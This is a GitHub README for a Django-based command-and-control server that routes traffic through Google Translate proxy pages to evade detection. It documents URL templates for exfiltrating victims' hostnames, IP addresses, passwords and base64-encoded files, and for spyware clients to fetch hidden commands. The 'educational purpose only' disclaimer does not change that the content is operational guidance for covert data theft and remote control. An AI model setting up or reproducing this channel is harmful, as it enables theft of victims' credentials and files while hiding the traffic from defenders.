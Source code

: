 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
### Exfiltration
- Data are collected directly from the URL
- simply send data to the base URL: ``https://your-domain.translate.goog/<?f>/><hostname>/<ip>/<data_type>/<?hash_file>/<data>/``
  - ``f`` is a flag value to tell the server you are uploading a file.**(OPTIONAL)**.
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``hash_file`` is a flag to know if the exfiltrated data is a file or a string. You must send the hash of the file you want to upload to recreate the file. It allows the admin dashboard to know if it has to decode the received data or not. **(REQUIRED IF YOU ARE USING THE /f/ PATH)**
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded automatically on the admin dashboard. If it's a base64 data, you must split it into multiple strings otherwise Google Translate will limit you.
You can expand the size of the data by editing ``collector\models.py`` and edit the ``max_length=<your value>`` for the ``data_content`` field.

### Getting command
- Fetch the following link from your client/spyware: ``https://your-domain.translate.goog/c/<hostname>/<ip>/<random_string>``
  - The random string is used to prevent Google to cache the URL.
  - The command is hidden in a class. You can find it by searching for the picture with ``alt="screen3"``

# FOR EDUCATIONAL PURPOSE ONLY
